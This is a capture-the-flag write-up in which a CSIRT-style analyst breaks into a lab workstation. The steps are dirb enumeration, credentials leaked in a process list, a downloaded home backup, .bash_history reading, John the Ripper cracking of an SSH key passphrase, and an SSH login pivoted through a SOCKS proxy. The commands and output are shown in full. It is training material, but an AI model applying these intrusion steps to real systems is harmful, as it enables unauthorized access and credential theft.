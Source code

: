 Security conerns: Johny's notes
======================================


## Task
Hi, TCC-CSIRT analyst,

please check if any inappropriate services are running on the workstation john.admins.cypherfix.tcc. We know that this workstation belongs to an administrator who likes to experiment on his own machine.

## Solution

You can do nothing wrong with nmap, so scan all ports on the workstation. There is open port 22 (SSH), 80 (apache) and 23000. Port 23000 is weird, it's possible to open it but it returns nothing, nmap with scan service return nothing... So, we can start with apache. Browser returns page "Hello world in PHP." No default page, probably there is running php. Enumeration with dirb return nothing interesting... but, there is PHP. So let's try it again with .php extension:

```
# dirb http://john.admins.cypherfix.tcc -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct 29 11:54:54 2024
URL_BASE: http://john.admins.cypherfix.tcc/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://john.admins.cypherfix.tcc/ ----
+ http://john.admins.cypherfix.tcc/environment.php (CODE:200|SIZE:3179)                                                                                        
+ http://john.admins.cypherfix.tcc/index.php (CODE:200|SIZE:28)
```

Interesting, we've discovered environment.php. On this page there are some statistics of the system and running processes. Running processes give us some answers. First, now we know what port 23000. There is opened SSH connection to host 10.99.24.100 with user backuper and option -D. Which means that on port 23000 we have SOCKS proxy: if we use SOCKS proxy client on this port, our connection will be made from 10.99.24.100 host.

Second, if we monitor process list some time, we find out this process:

```
smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1730217601.tgz backup-home.tgz
```

So it means that on host 10.99.24.100 is running samba server, we have credentials for it and also on this share will be some backup from workstation. Note that I have very great luck as the smbclient process was running when I opened web page for first time. I'm not sure when I will try to refresh it for ~10 minuts if I didn't see that process with credentials :-)

So, now run smbclient and download backup-home.tgz. If we try to connect to workstation with SSH we find out that only login with SSH key is permitted. If we extract home backup which we now have, we find private SSH key there. Encrypted. Also we can look on authorized_key which confirms, that we can login with this key but only from 10.99.24.100 host. So, change permission on id_rsa key to 600 so ssh can use it. Install proxychains and in /etc/proxychains.conf append line "socks5 10.99.24.101 23000". Now we can open SSH connection with this command: proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa

Only missing piece is password for private key. So what is the most exciting file in every home directory? .bash_history for sure :-) There are two interesting lines:

```
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

Second command change passphrase for key. First one seems like password. This password is not working anymore. But usually, when user has to change password and password had number on the end, you can bet, that only number in password was changed :-) So generate password list:

```
for i in $(seq 10000); do printf "Enterprise%04d\n" $i; done > list.txt
```

And crack it with John The Ripper (note that hashcat should also work and with mask shouldn't be needed generating password list but on my WS for some reason hashcat won't recognize SSH keyfile):

```
ssh2john id_rsa > hash
john --wordlist=./list.txt hash
john --show hash  
id_rsa:Enterprise2215
```

And now just login with proxychains and SSH:

```
# proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.99.24.101:23000  ...  10.99.24.101:22  ...  OK
Enter passphrase for key 'id_rsa': 
FLAG{sIej-5d9a-aIbh-v4qH}
```
